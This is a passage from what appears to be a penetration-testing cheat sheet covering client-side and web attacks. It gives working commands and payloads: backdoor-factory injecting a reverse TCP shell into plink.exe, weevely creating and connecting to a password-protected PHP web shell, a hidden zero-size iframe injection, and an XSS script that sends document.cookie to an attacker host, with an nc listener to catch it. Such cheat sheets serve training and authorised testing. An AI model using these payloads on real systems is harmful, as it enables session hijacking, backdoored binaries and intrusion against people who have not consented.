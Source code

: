     -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
 
    -   Setting up the Client Side Exploit
 
    -   Swapping Out the Shellcode
 
    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp
 
-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------
 
    -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui
 
    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        ls -l /usr/share/webshells/
 
    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t
 
    -   Java Signed Applet Attack
 
    -   HTTP / HTTPS Webserver Enumeration
 
        -   OWASP Dirbuster
 
        -   nikto -h $ip
 
    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
 
    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more
 
    -   Browser Redirection and IFRAME Injection  
        <iframe SRC="http://$ip/report" height = "0" width
        ="0"></iframe>
 
    -   Stealing Cookies and Session Information  
        <script>  
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;  
        </script>  
        nc -nlvp 80
 
